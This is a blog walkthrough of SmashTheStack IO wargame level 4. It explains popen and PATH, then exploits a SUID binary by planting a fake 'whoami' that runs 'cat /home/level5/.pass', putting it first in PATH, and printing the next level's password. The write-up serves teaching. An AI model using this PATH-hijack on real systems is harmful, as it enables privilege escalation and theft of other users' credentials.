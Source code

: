 ```yaml
---
layout: post
title: "SmashTheStack IO Level 4"
date: 2014-07-07 22:24:52 +0300
comments: true
categories: [smashthestack, wargames, exploit]
keywords: smash the stack, wargames
description: SmashTheStack IO Level 4
---
```


We have source code for this level as well in level04.c:
<!-- more -->

``` c
//writen by bla
#include <stdlib.h>
#include <stdio.h>

int main() {
        char username[1024];
        FILE* f = popen("whoami","r");
        fgets(username, sizeof(username), f);
        printf("Welcome %s", username);

        return 0;
}
```

#### Function overview

**popen**

_FILE *popen(const char *command, const char *type);_

Opens a process by creating a pipe,  forking,  and invoking  the shell.  Since a pipe is by definition unidirectional, the type argument may specify  only  reading  or  writing,  not  both;  the resulting stream is correspondingly read-only or write-only.

The  command argument is a pointer to a null-terminated string containing a shell command line.  This command is passed to /bin/sh using  the -c  flag;  interpretation, if any, is performed by the shell.  The type argument is a pointer to a null-terminated string  which  must  contain either the letter 'r' for reading or the letter 'w' for writing.  Since glibc 2.9, this argument can additionally include the letter 'e', which causes  the close-on-exec flag (FD_CLOEXEC) to be set on the underlying file descriptor.

The  return  value  from popen() is a normal standard I/O stream in all respects save  that  it  must  be  closed  with  pclose()  rather  than *fclose(3)*.   Writing  to  such a stream writes to the standard input of the command; the command's standard output is the same as that  of  the process  that  called  popen(),  unless  this is altered by the command itself.  Conversely, reading from a "popened"  stream  reads  the  command's standard output, and the command's standard input is the same as that of the process that called popen().

Note that output popen() streams are fully buffered by default.

The popen() function returns NULL if the *fork(2)* or *pipe(2)* calls fail, or if it cannot allocate memory.

The popen() function does not set errno if memory allocation fails.  If the underlying fork(2) or pipe(2) fails, errno  is  set  appropriately. If  the type argument is invalid, and this condition is detected, errno is set to EINVAL.

Since the standard input of a command opened  for  reading  shares  its seek  offset  with  the  process  that  called popen(), if the original process has done a buffered read, the command's input position may  not be  as expected.  Similarly, the output from a command opened for writing may become intermingled with that of  the  original  process.   The latter can be avoided by calling fflush(3) before popen().

Failure  to  execute  the  shell  is indistinguishable from the shell's failure to execute command, or an immediate exit of the  command.   The only hint is an exit status of 127.


**fgets**

_char *fgets(char *str, int num, FILE *stream);_

The *fgets()* function reads up to *num–1* characters from *stream* and stores them in the character array pointed to by *str*. Characters are read until either a newline or an EOF is received or until the specified limit is reached. After the characters have been read, a null is stored in the array immediately after the last character read. A newline character will be retained and will be part of the array pointed to by *str*.


On success, the function returns *str*.
If the end-of-file is encountered while attempting to read a character, the eof indicator is set (*feof*). If this happens before any characters could be read, the pointer returned is a null pointer (and the contents of *str* remain unchanged).
If a read error occurs, the error indicator (*ferror*) is set and a null pointer is also returned (but the contents pointed by *str* may have changed).


#### Program description

This program executes a shell command and prints the results. If we try to run it, we see this:

``` plain
level4@io:/levels$ ./level04
Welcome level5
```

This makes sense, since it's a SUID binary owned by the level5 user. What we want to do is substitue the command called by popen with one that will help us advance, like <code>cat /home/level5/.pass</code>

We can't directly influence the program since it doesn't take user input. But we know that the change must occur in the popen line. So in that line, it opens a pipe for reading to the *whoami* command. We can't put another command its place, but maybe we don't have to. How does the program know where to find whoami? Let's first find it ourselves:

``` plain
level4@io:/levels$ which whoami
/usr/bin/whoami
```

For this we have to understand the concept of PATH:

> PATH is an environmental variable in Linux and other Unix-like operating systems that tells the shell which directories to search for 
> executable files in response to commands issued by a user. 
> Each user on a system can have a different PATH variable. 

> (The Linux Information Project)

To see the contents of our PATH variable, we do this:

``` plain
level4@io:/levels$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

So this is how the program knew how to find whoami. It just searched those directories until it found it. And we know we can add a new directory to our default search path with one of the below commands:

``` plain
PATH="directory:$PATH"

PATH=$PATH:directory
export PATH

export PATH=$PATH:directory
```

Now we should get an idea of the steps to exploit the program. We can create our own directory and store in it a program named whoami that would do what we want it to. Then should add that directory to our path, and then level04 program searches for whoami, it will hit upon our own whoami version instead. Let's do that now.

``` plain
level4@io:/levels$ mkdir /tmp/mydir
level4@io:/tmp/mydir$ echo "cat /home/level5/.pass" > /tmp/mydir/whoami
level4@io:/tmp/mydir$ ls -l whoami
-rw-r--r-- 1 level4 level4 23 Jul 17 17:44 whoami
```

If we leave it like this, the permissions won't allow it to be executed, so I make it readable, writable and executable for everyone with the following:

``` plain
chmod 777 whoami
level4@io:/tmp/mydir$ ls -l whoami
-rwxrwxrwx 1 level4 level4 23 Jul 17 17:44 whoami
```

Now add our directory to our PATH:

``` plain
level4@io:/tmp/mydir$ PATH="/tmp/mydir:$PATH"
level4@io:/tmp/mydir$ echo $PATH
/tmp/mydir:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

All that's left is to run the level04 binary and collect the password:

``` plain
level4@io:/tmp/mydir$ /levels/level04
Welcome KGpWsju2vDpmxcxlvm
```

> Work consists of whatever a body is obliged to do.
> Play consists of whatever a body is not obliged to do.

> -- Mark Twain




